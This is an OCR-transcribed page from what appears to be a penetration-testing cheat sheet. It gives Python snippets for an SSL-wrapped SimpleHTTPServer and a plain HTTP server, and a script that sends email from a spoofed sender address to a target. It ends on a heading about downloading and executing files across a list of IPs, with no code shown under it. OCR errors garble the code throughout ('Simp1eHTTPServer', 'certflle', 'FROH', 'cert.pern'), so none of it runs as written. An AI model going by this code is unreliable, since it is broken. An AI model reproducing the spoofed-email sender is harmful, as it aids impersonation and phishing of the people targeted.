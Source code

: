 ### Ssl encrypted simplehttpserver

```text
# Create SSL cert (follow prompts for customization)
  openssl req -new -x509 -keyout cert.pem -out cert.pern -days 365 -nodes

#Create httpserver.pj
  import BaseHTTPServer,SimpleHTTPServer,ssl

cert ="cert.pem"
httpd = BaseHTTPServer.HTTPServer( ('192.168.1.10' ,443),
Simp1eHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap socket(httpd.socket,certflle=cert,server side=True)
httpd.serve_forever()
```

### Python http server

```text
python -m SimpleHTTPServer 8080
```

### Python email sender \(\* sendmail must be installed\)

```text
#!/usr/bin/python
import smtplib, string
import os, time

os.system("/etc/init.d/sendmail start")
time.sleep(4)

    HOST = "localhost"
    SUBJECT = "Email from spoofed sender"
    TO = "target@you.com"
    FROM= "spoof@spoof.com"
    TEXT = "Message Body"
    BODY = string.join( (
            "From: %s" % FROH,
            "To: %s" % TO,
            "Subject: %s" % SUBJECT ,
            "",
            TEXT
            ) , "\r\n")
server = smtplib.SMTP(HOST)
server.sendmail(FROM, [TO], BODY)
server. quit ()
time.sleep(4)
os.system("/etc/init.d/sendmail stop")
```

### Loop through ip list, download file over http and execute
